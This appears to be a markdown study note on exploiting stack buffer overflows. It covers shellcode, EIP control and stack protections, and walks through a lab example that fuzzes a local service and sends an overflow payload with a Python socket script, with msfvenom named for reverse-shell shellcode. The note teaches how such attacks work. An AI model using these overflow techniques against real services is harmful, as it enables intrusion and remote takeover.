


# SOFTWARE EXPLOITATION

An exploit is a piece of sotware, a chunk of data or a sequence of commands that takes advantage of a bug or vulnerability to cause unintended or unanticipated behavior to occur on computer software, hardware or something electronic.

### How to Exploit
1. Black Box Testing (Blind Testing)
2. White Box Testing (Have access to software or source code)

### Memory Corruption
Is one of the most intractable class of programming errors due to:
1. Code injection
  - Where to inject the malicious code.
  - How to generate malicious code (shellcode)
  - How to redirect execution flow.
2. Redirection of execution flow
  - In x86, you can control with EIP, also called Instruction point, register.
  - This register is how the x86 architecture knows which the next instruction to be executed.
  
### Shellcode
Machine code used as the payload in the exploitation of a software bug, shellcode becomes a natural continuation.

**Example**

1. Put Shellcode in place of A's
2. Put padding to still cause overflow.
3. Change EIP to where the shellcode is.
4. It may now work sometimes.**Reason:**
  - Windows has a native defines that adds **0x00** to the front addresses in the stack.
  - Like strcpy, will stop on any **0x00** that it comes across because it is considered end of string.
  
### Buffer Overflow
> Is a type of memory corruption vulnerability; attackers can control the execution of the vulnerable application.

If we write more than 8 elements in buffer, we overwrite the stack and thus the stored values.

When it occurs; 
  - Call to unsafe functions: `strcpy`,...
  - Call safer functions with a wrong size.
  - Wrong number of loop iterations.

Example:
- input = 'AAAAAAAAAAA...AAA\0'
```
void f2(){
  char buf[8]
  strcpy(buf, input);
}

void f1(){
  int a;
  f2();
}
```


**Example (Crashed Machine)**

From the above, there is a hidden command "SECRET" which can be used as we can see it check the first 6 chars only of the received message so we can pad the message with additional chars and try to fuzz the program.

now we can run the immunity debugger and start fuzzing it.


Sending 2000 chars we notice we successfully changed the eip so now we must see what offset will be used to change the eip.

We can use _gdb peda pattern create_ command to generate the padding and test it again then we check the immunity debugger.

The new eip now contains the value 24417824. Let's check where our eip overwrite offset starts.

Now our payload will be "A"*998 +eip +shellcode so let's see if we can change the eip with the BBBB before start preparing the final payload.
```
#!/usr/bin/python
import os
import sys
import socket
host = "127.0.0.1"
port = 13337

buffer = "A"*998+"BBBB"+"C"*200
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print(s.recv(1024))
print("Sending Exploit")
s.send(b"SECRET" + buffer.encode() )
print(s.recv(1024))
s.close()
```


Now we can check the immunity debugger again and we see the following.


From the above, we fully control the eip now and the chars after the eip will be in the stack so we can add our shellcode after the eip and search for any valid jmp esp instruction.

Using mona.py to search for all jmp esp instructions we can use any of them now we have to generate our shellcode to get the reverse shell and we can use msfvenom shellcode generator.


So add the shellcode and create your pythonscript and test it again.

### Protection against vulnerabilities.
1. **Canary**: a random value is put between the stack frames, check if it is changed during execution.
2. **DEP**: the stack is no longer executable(harder to use shellcode.)
3. **ASLR**: sections are randomized.


